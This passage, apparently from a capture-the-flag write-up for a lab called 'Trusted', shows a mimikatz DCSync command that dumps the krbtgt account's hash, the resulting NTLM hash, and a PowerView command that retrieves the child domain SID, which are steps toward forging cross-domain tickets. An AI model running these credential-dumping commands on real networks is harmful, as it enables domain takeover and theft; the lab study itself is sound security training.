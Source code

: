 ### KRBTGT Hash

To retrieve the hash of the krbtgt user mimikatz can be used.

```powershell
.\mimikatz.exe "privilege::debug" "lsadump::dcsync /user:LAB\krbtgt" "exit"
```

![alt text](/assets/Trusted/Trusted-krbtgtNTLM.png)


The corresponding NTLM hash is:

```text
c7a03c565c68c6fac5f8913fab576ebd
```

### Child domain SID

Using **PowerView.ps1**

```text
Get-DomainSID
```

![alt text](/assets/Trusted/Trusted-childDomainSID.png)

